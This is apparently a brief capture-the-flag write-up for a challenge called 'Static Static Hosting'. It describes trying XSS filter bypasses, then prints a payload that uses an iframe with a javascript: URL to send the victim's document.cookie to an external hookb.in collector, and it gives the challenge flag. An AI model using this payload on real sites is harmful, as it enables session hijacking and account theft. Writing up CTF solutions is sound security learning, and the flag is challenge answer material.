 # Static Static Hosting

Just pasted xss filter bypasses until one gave an alert('xss'), then refined it to send us the cookie.
```html
<IFRAME SRC="javascript:document.location='https://hookb.in/b9gRBDkwpJT3DDogQ73Q?test='+document.cookie"></IFRAME>
```
(HTTPS was required)

#### flag{wh0_n33d5_d0mpur1fy}
